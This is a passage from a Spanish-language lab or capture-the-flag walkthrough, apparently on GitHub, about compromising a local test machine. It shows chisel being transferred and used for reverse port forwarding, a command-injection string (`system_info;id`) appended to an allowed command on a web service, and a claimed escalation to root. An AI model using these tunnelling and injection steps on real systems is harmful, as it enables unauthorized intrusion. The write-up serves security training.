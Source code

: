 por lo que parece es posible la ejecucion de comandos de sistema, pero al no tener curl instalado para enviar los comandos tocara usar chisel para hacer portforwarding del puerto 8888 hasta nuestra maquina atacante por lo que enviamos el binario de chisel a la maquina

```bash
scp chisel sam@172.17.0.2:/home/sam/
```


![image](https://github.com/user-attachments/assets/5d7580d8-d4af-4306-b27b-69e944412f40)



![image](https://github.com/user-attachments/assets/5dfc68bf-49e8-4944-86f0-05cb12e8e805)



vemos que ya lo tenemos disponible asi que hacemos portforwarding del puerto 8888

```bash
./chisel client 172.17.0.1:90 R:8888:localhost:8888 & # en la maquina comprometida
```

```bash
chisel server --reverse -p 90 # en nuestra maquina atacante
```


![image](https://github.com/user-attachments/assets/153d6c57-2a81-4d3c-ab5b-406845eb3175)

ahora podremos acceder al servicio web desde nuestra maquina atacante


![image](https://github.com/user-attachments/assets/6a4990e3-9c21-4c10-9868-5f5ebd6dde77)


intentaremos ir ejecutando comandos


![image](https://github.com/user-attachments/assets/f6f7dd8e-5caa-4eec-9592-3748e6e7604b)

parece que no es posible ejecutar cualquier comando asi que veremos la ayuda que ofrece


![image](https://github.com/user-attachments/assets/386ba929-2df1-4432-b36f-6b4142665b12)


tenemos un menu con los comandos que podemos ejecutar, pero si intentamos inyectar comandos lo logramos, solo debemos ejecutar un comando permitido seguido de un comando del sistema, ejemplo: `system_info;id` y lograriamos ejecucion de comandos


https://github.com/user-attachments/assets/d095265b-9c97-44d0-abf8-55d3df61a7c9

para una escalada rapida a root hacemos lo siguiente


https://github.com/user-attachments/assets/cd1c30a7-c16f-4ed6-8ee9-d3269c5bfccb

logramos comprometer el sistema entero obteniendo acceso root!!!










